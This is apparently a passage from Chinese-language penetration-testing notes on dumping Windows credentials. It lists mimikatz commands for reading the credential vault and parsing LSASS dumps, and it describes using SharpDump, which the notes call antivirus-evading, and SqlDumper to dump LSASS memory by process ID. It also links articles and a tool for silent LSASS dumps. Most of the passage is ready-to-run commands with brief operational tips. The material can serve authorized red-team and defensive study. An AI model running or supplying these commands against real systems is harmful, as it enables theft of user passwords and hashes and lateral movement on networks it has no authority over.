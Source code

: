 **rdp**
```
privilege::debug
vault::cred /patch
```

---

## 离线抓取

**相关文章**
- [Win10及2012系统以后的明文抓取方式](https://www.anquanke.com/post/id/175364)
- [Mimikatz明文密码抓取](https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html)
- [mimikatz-抓取windows明文密码](http://rtshield.top/2019/09/02/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-%E6%8A%93%E5%8F%96windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81/)
- [利用Mimikatz提取虚拟机内存中的密码](https://www.freebuf.com/articles/system/44620.html)
- [LSASS Memory Dumps are Stealthier than Ever Before](https://www.deepinstinct.com/2021/01/24/lsass-memory-dumps-are-stealthier-than-ever-before/)
- [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
- [渗透技巧——使用Mimilib从dump文件中导出口令](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BD%BF%E7%94%A8Mimilib%E4%BB%8Edump%E6%96%87%E4%BB%B6%E4%B8%AD%E5%AF%BC%E5%87%BA%E5%8F%A3%E4%BB%A4/)
- [Mimikatz Against Virtual Machine Memory Part 1 Carnal0wnage](https://blog.carnal0wnage.com/2014/05/mimikatz-against-virtual-machine-memory.html)
- [Mimikatz Against Virtual Machine Memory Part 2 Carnal0wnage](https://blog.carnal0wnage.com/2014/06/mimikatz-against-virtual-machine-memory.html)

**[SharpDump](https://github.com/GhostPack/SharpDump)** c# 免杀抓明文

在管理员权限下运行生成 debug480.bin

特别注意,dump 的文件默认是 bin 后缀,拖到本地机器以后,需要自行把 bin 重命名为 zip 的后缀,然后正常解压出里面的文件,再丢给 mimikatz 去读取即可,如下

mimikatz 加载 dump 文件
```bash
sekurlsa::minidump debug480
sekurlsa::logonPasswords full
```

还有一些工具
- SqlDumper
    ```bash
    tasklist /svc | findstr lsass.exe  # 查看lsass.exe 的PID号
    # 或powershell 下
    Get-Process lsass

    Sqldumper.exe ProcessID 0 0x01100  # 导出mdmp文件
    ```

**WerFault.exe**

- [deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)
